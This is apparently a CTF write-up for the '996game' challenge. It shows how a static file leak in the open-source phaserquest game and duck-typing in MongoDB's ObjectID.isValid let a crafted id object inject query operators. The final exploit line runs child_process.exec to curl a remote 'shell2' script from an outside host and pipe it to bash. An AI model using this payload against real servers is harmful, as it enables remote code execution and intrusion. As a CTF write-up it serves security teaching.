 ### 996game

#### OrZ

This challenge is temporarily made in the afternoon before the CTF game(From findding bugs to challenges). So there are some rushes in this challenge , please bear with me.

#### writeup

First we can find hint from HTML source code.

![](https://i.imgur.com/yCKELtI.png)

It's an open-source HTML5 game. 

https://github.com/Jerenaux/phaserquest

We can see there is a static file leak vulnerability

https://github.com/Jerenaux/phaserquest/blob/master/server.js#L44

```javascript
app.use('/css',express.static(__dirname + '/css'));
app.use('/js',express.static(__dirname + '/js'));
app.use('/assets',express.static(__dirname + '/assets'));
```
![](https://i.imgur.com/2isT1nn.png)

Now, we need to find a way to get mongodb error.

Only one thing we can control is id, so we can track the `ObjectId()` function.

https://github.com/mongodb/js-bson/blob/V1.0.4/lib/bson/objectid.js#L28

```javascript
...

var valid = ObjectID.isValid(id);

...

ObjectID.isValid = function isValid(id) {
  if(id == null) return false;

  if(typeof id == 'number') {
    return true;
  }

  if(typeof id == 'string') {
    return id.length == 12 || (id.length == 24 && checkForHexRegExp.test(id));
  }

  if(id instanceof ObjectID) {
    return true;
  }

  if(id instanceof _Buffer) {
    return true;
  }

  // Duck-Typing detection of ObjectId like objects
  if(id.toHexString) {
    return id.id.length == 12 || (id.id.length == 24 && checkForHexRegExp.test(id.id));
  }

  return false;
};

```
Now we can use `id = {"id":{"length":12}}` bypass it.

```javascript
...

  if(!valid && id != null){
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  } else if(valid && typeof id == 'string' && id.length == 24 && hasBufferType) {
    return new ObjectID(new Buffer(id, 'hex'));
  } else if(valid && typeof id == 'string' && id.length == 24) {
    return ObjectID.createFromHexString(id);
  } else if(id != null && id.length === 12) {
    // assume 12 byte string
    this.id = id;
  } else if(id != null && id.toHexString) {
    // Duck-typing to support ObjectId from different npm packages
    return id;
  } else {
    throw new Error("Argument passed in must be a single String of 12 bytes or a string of 24 hex characters");
  }
...
```
Now , we change our payload to 
`id = {"length":0,"toHexString":true,"id":{"length":12}},`

And then the whole payload will be sent to mongodb server.

```javascript
MongoDB shell version: 2.6.10
connecting to: test
> db.a.find({"b":{"$gt":1,"c":"d"}})
error: {
	"$err" : "Can't canonicalize query: BadValue unknown operator: c",
	"code" : 17287
}

```

So the whole exploit is

```javascript
Client.socket.emit('init-world',{new:false,id:{"$in":[1],"require('child_process').exec('/usr/bin/curl host/shell2|bash')":"bbb","length":0,"toHexString":true,"id":{"length":12}},clientTime:"sacsaccsacsac"});
```
